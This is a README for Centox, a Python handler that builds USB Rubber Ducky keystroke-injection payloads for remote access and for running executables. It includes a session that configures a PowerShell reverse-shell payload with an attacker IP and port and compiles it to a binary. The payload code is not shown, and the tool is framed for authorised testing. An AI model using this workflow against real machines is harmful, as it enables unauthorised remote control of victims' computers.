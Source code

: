 <p align="center">
    <img src="/assets/media/logo.png" height="200">
</p>

<h1 align="center">
  Centox
</h1>

Centox is an injection handler written in python3 and is designed to provide a collection of injection
payloads written for the [USB Rubber ducky](https://shop.hak5.org/products/usb-rubber-ducky-deluxe/)
which was designed by [Hak5](https://shop.hak5.org/). This project contains payloads designed for 
establishing remote access, deploying and running executables and more in as short time as possible.
Centox comes with payloads designed Windows, Mac and Linux with the assumption that the target has not
modified their default shortcuts.


## Disclaimer

This project was designed for testing purposes __ONLY__ and is not to be used without explicit permission.
Hacking without permission is not encouraged and the author is not responsible for any illegal use of this tool.

## Installation

Downloading and running setup.py:
```
$ git clone https://github.com/Sigurd-Pettersen/Centox.git
$ sudo python3 Centox/setup.py
```
running setup.py will automatically generate a centox executable to be run in terminal.

## Usage
Starting the centox handler:
```
$ centox
```

the handler commands can be listed using the `help` command:
```
[Centox] $ help

Command    Description
---------  -------------------------------
list       lists all available payloads
use        choose a payload to use
set        sets payload argument variables
options    show all available arguments
generate   generates the current payload
help       shows this help message
```

how to generate payloads:
```
[Centox] $ use windows/shell/powershell
 
[Centox] $ options
 
 Payload: windows/shell/powershell
 
Argument       Value
-------------  -------
start_delay    500
ip
port
windows_admin  false
 
[Centox] $ set ip 192.168.68.42
 
[Centox] $ set port 9999
 
[Centox] $ generate -o /home/user/inject.bin -l no
[*] created temporary folder -> /tmp/tmpfeccetz0
[*] writing raw payload to -> /tmp/tmpfeccetz0/payload
[*] compiling payload to injection binary...
[*] injection compiled successfully -> /home/user/inject.bin
```

## Compatibility
- [x] USB Rubber Ducky
- [ ] O.MG Cable
- [ ] Bash Bunny
- [ ] Arduino Injectors
